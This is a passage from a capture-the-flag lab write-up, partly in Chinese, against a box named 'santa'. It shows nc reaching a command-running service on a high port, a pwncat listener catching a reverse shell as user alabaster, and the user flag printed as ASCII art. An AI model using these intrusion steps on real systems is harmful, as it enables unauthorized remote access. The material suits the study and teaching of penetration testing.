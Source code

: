 尝试连接 65415 这个端口，得到

```bash
┌─[randark@parrot]─[~]
└──╼ $ nc 192.168.56.124 65415
GET /
ls
user.txt
a
ls
user.txt
```

## User - alabaster

```bash
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 8888
[18:00:50] Welcome to pwncat 🐈!
[18:00:54] received connection from 192.168.56.124:36016
[18:00:54] 192.168.56.124:36016: registered new host w/ db
(local) pwncat$ back
(remote) alabaster@santa:/home$ whoami
alabaster
```

### flag - user

```bash
(remote) alabaster@santa:/home/alabaster$ cat user.txt
                 ..'''::::...
              .::'`'''':::..
        '...::'               `.----.
                              /_.--._\
                            ,  |=   |
                          ,/ \,|  =-|
                        ,/ /`\ \,   |
                      ,/ /`___`\ \,-|
                    ,/ /'.-:";-.`\ \|
                  ,/ /` //_|_|_\\ `\ \, ,/\,
                ,/ /`   ||_|_|_||   `\;/ /\ \,
              ,/ /`     ||_|_|_||   ,/ /`/\`\ \,
            ,/ /`    ==_`-------' ,/ /` ~\/~ `\ \,
          ,/ /` __|     _       ,/ /`         =`\ \,
        ,/ /`==_     __|___-  ,/ /` ==-=|__|     `\ \,
      ,/ /`        --=      ,/ /`            __|-- `\ \,
    ,/ /`  |__ ..----.. = ,/ /`()    .-"""""-.     ()`\ \,
   / /`|     .'_.-;;-._'./ /; {__} .'.-"""""-.'.  {__} ;\ \
  |/`  |_| =/.; | || | ;|/` | |::|/.'_____'.\ |::| | `\|
       |   |/_|_|_||_|_|_\| |=\::/||  /|_|_|\  || \::/ |
       | -=|| | | || | | || |  || || |_|_|_|_| ||  |||_|
       | , ||-|-|-||-|-|-||=|  JL || |_|_|_|_| ||  JL  |
       |/_\||_|_|_||_|_|_||-|'    ||   .:::.   ||=_   _|
       /_ (|| | | || | | || |  ==_|| /:::::::\ || __P__|
       /_\ \|-|-|-||-|-|-|| |     || |::(`)::| ||/\ |  `\
      `>/ _\\_|_|_||_|_|_||-|-'|__|| \/`\+/`\/ ||||_____|
      /_/   <-------------' |     ||()\_/Y\_/  ||/  || |
     /  ` \_ ( ==_  __|-    |_|_  ||   / / \   || =_|| |
    `/_) | _ <`   __        |   = ||  /_/ \_\  ||   || |
     >  /     \ == _  ==_   | -   ||           ||=  || |
    /_/   ( \  `\ _| =__   =|-__|_||-----------||_| || |
   )-._/ _\ _,-('__.;-'-;__     `"""""""""""||`"-._
  '-,._   \__.-`-;''`          ``--'`""'"""`"""``-- `--'--. '
       ```             ``         `""""'""""'"`""".--------

```